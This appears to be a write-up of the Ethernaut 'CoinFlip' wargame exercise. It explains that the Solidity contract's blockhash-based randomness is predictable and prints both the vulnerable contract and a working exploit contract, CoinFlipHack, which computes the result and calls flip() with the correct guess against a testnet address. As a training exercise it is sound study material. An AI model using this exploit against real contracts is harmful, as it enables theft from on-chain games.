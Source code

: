 ## Exercise 3: Coinflip

The vulnerabilioty in the CoinFlip contract is the source of randomness used to generate a result. The outcome of the coinflip is determined by the previous blockhash divided by a constant. This is deterministic and can therefore be calculated in a malicious contract and passed to  the original contract as a guaranteed correct guess.

The following contracts are the original vulnerable contract, `CoinFlip.sol`, and the new malicious contract, `CoinFlipHack.sol`. The latter can be deployed on Rinkeby, the same as the original contract. When the hack() function is called, the CoinFlipHack contract calls to the original deployed CoinFlip contract passign a correct guess as an argument. When calledN times, this leads to N consecutive guesses.


### Vulnerable Contract
```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

```

### Malicious Contract

```javascript

// "SPDX-License-Identifier: UNLICENSED"
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
import "./CoinFlip.sol";

contract CoinFlipHack {

  using SafeMath for uint256;
  address target_address = 0xF3DB36bAcc4d7f47E970010E8D3328e3e662b49F;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip originalContract;

  constructor() public {
      originalContract = CoinFlip(target_address);
  }
  function hack() public returns (bool){
    
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool _guess = coinFlip == 1 ? true : false;

    originalContract.flip(_guess);

  }

}

```